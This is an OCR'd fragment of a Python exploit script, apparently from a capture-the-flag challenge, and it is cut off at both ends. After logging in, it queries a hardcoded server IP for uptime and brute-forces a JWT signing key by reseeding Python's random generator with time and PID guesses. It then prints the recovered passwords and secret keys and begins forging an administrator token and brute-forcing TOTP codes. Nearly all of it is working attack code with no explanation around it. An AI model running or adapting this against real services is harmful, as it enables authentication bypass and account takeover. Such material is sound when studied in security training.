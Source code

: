 ```python
    else:
        print(f"Login failed (Status: {response.status_code})")
        print("Cannot proceed without JWT cookie.")
        exit(1)
except Exception as e:
    print(f"Error during login: {e}")
    print("Cannot proceed without JWT cookie.")
    exit(1)
    
# Fetch uptime from server
server_url = "http://51.77.140.155:9100/status"
try:
    print("Fetching server status...")
    response = requests.get(server_url, timeout=5).json()
    uptime = int(float(response["uptime"]))
    current_time = int(time.time())
    up = current_time - uptime
    print(f"Server responded - up: {up}, Uptime: {uptime}")
except Exception as e:
    print(f"Failed to reach server: {e}")
    print("Cannot proceed without server uptime.")
    exit(1)

# Decode JWT with server-provided up
jwt_key = None  # Define outside loop
found = False
timeout = 10  # ±10 seconds threshold for server - client difference
for tt in range(up - timeout, up + timeout + 1):
    print(f"Trying up: {tt}")
    for pid in range(1, 100):
        random.seed(tt + pid)
        strongpassword = "".join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
        secret_key = "".join(random.choice(string.printable) for _ in range(32))
        jwt_key_candidate = "".join(random.choice(string.printable) for _ in range(32))
        try:
            decoded = jwt.decode(jwt_cookie, jwt_key_candidate, algorithms=["HS256"])
            print(f"\nStep 1: Successfully decoded JWT!")
            print(f"up (adjusted): {tt}, PID: {pid}")
            print(f"Original server up: {up}")
            print(f"Strong Password: {strongpassword}")
            print(f"SECRET_KEY: {secret_key}")
            print(f"JWT_SECRET_KEY: {jwt_key_candidate}")
            print(f"Decoded JWT: {decoded}")
            jwt_key = jwt_key_candidate  # Store the correct key
            found = True
            break
        except jwt.InvalidTokenError:
            if pid % 25 == 0:
                print(f"PID {pid} failed for up: {tt}")
            continue
    if found:
        break

if not found:
    print("Failed to decode JWT within timeout threshold.")
    exit(1)

# Step 2: Forge admin JWT and brute-force TOTP
admin_payload = {
    "fresh": False,
    "iat": int(time.time()),
    "jti": "44aefe9b-59a9-49a0-980b-7bd572af49aa",
```